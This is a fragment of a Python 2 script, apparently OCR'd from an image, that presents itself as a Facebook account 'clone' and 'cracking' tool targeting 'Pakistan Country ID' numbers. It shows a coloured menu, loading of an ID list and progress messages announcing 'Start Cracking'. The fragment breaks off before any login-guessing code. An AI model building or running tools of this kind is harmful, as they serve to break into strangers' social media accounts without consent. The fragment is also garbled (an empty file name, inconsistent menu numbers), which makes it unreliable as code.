     time.sleep(0.10)
    
    print '\x1b[1;94m[2] SOMI FB ACCOUNT'
    
    time.sleep(0.10)
    
    print '\x1b[1;95m[3] MORE INFO'
    
    time.sleep(0.10)
    
    print '\x1b[1;96m[4] SIDRA TRACKER'
    
    time.sleep(0.10)
    
    print '\x1b[1;97m[5] CLONING ERROR'
    
    time.sleep(0.10)
    
    print '\x1b[1;94m[3] back'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;97mCHOOSE:\033[1;91m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "Enter any Pakistan Mobile code Number"+'\n'
        print 'Enter any code 1 to 49'
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan('\033[1;96m▬10%')
    jalan("\033[1;96m▬▬20%")
    jalan('\033[1;96m▬▬▬30%')
    jalan('\033[1;96m▬▬▬▬40%')
    jalan("\033[1;96m▬▬▬▬▬50%")
    jalan("\033[1;96m▬▬▬▬▬▬60%    \033[1;91mPAKISTAN Country ID Clone")
    jalan('\033[1;96m▬▬▬▬▬▬▬70%')
    jalan('\033[1;96m▬▬▬▬▬▬▬▬80%')
    jalan('\033[1;96m▬▬▬▬▬▬▬▬▬90%')
    jalan('\033[1;96m▬▬▬▬▬▬▬▬▬100%')
    jalan ('\033[1;96m Total ids number: '+xxx)
    jalan ('\033[1;95mCode you choose: '+c)
    jalan ("\033[1;94mWait A While Start Cracking...")
    jalan ("\033[1;93mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg